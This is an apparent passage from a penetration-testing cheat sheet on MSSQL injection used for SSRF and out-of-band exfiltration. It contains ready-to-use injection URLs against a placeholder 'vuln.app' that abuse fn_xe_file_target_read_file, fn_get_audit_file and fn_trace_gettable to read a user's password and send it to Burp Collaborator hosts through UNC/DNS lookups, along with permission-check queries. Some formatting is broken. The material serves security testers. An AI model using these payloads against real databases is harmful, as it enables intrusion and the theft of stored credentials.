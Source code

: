 ## SSRF

These SSRF tricks [[https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/|were taken from here]]

### `fn_xe_file_target_read_file`

It requires **`VIEW SERVER STATE`** permission on the server.

```
https://vuln.app/getItem?id= 1+and+exists(select+*+from+fn_xe_file_target_read_file('C:\*.xel','\\'%2b(select+pass+from+users+where+id=1)%2b'.064edw6l0h153w39ricodvyzuq0ood.burpcollaborator.net\1.xem',null,null))
```
```
```sql
# Check if you have it
SELECT * FROM fn_my_permissions(NULL, 'SERVER') WHERE permission_name='VIEW SERVER STATE';
# Or doing
Use master;
EXEC sp_helprotect 'fn_xe_file_target_read_file';
```
```
### `fn_get_audit_file`

It requires the **`CONTROL SERVER`** permission.

```
https://vuln.app/getItem?id= 1%2b(select+1+where+exists(select+*+from+fn_get_audit_file('\\'%2b(select+pass+from+users+where+id=1)%2b'.x53bct5ize022t26qfblcsxwtnzhn6.burpcollaborator.net\',default,default)))
```
```
```sql
# Check if you have it
SELECT * FROM fn_my_permissions(NULL, 'SERVER') WHERE permission_name='CONTROL SERVER';
# Or doing
Use master;
EXEC sp_helprotect 'fn_get_audit_file';
```
```
### `fn_trace_gettabe`

It requires the **`CONTROL SERVER`** permission.

```
https://vuln.app/ getItem?id=1+and+exists(select+*+from+fn_trace_gettable('\\'%2b(select+pass+from+users+where+id=1)%2b'.ng71njg8a4bsdjdw15mbni8m4da6yv.burpcollaborator.net\1.trc',default))
```
```
```sql
# Check if you have it
SELECT * FROM fn_my_permissions(NULL, 'SERVER') WHERE permission_name='CONTROL SERVER';
# Or doing
Use master;
EXEC sp_helprotect 'fn_trace_gettabe';
```
```
### `xp_dirtree`, `xp_fileexists`, `xp_subdirs` 

Stored procedures like `xp_dirtree`, though not officially documented by Microsoft, have been described by others online due to their utility in network operations within MSSQL. These procedures are often used in Out of Band Data exfiltration, as showcased in various [[https://www.notsosecure.com/oob-exploitation-cheatsheet/) and [posts](https://gracefulsecurity.com/sql-injection-out-of-band-exploitation/|examples]].

```